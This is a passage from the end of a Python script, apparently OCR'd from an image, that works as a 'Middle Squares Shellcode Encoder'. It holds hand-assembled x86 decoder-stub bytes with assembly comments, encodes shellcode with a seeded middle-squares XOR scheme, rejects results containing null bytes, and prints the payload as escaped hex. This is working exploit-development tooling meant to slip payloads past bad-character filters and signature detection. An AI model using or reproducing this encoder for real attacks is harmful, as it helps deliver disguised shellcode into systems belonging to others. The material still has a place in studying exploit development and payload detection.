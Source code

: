```python
                                   "\x33\x1f"       # xor ebx, [edi]
                                   "\x89\x1f"       # mov [edi], ebx
                                   "\x83\xc7\x04"   # add edi, 0x04
                                   "\xe2\xeb"       # loop <decode_loop>
                                   "\xff\xe6"       # jmp esi
                                   "\xe8\xd8\xff\xff\xff",  # call <setup>
                                   'iso-8859-1')
                     )

            shellcode_with_decoder = decoder + encode_to_bytes(seed, shellcode)

            return_string = b''

            if nulls_in_bytearray(shellcode_with_decoder) is True:
                continue

            for i in shellcode_with_decoder:
                return_string += b'\\x'
                return_string += b'%02x' % (i & 0xff)

            break

        print('Middle Squares Shellcode Encoder')
        print('Seed used: %s' % hex(seed))
        print('\nLength: %d\n' % len(shellcode_with_decoder))
        print(return_string.decode("utf-8"))


if __name__ == '__main__':
    main()

```
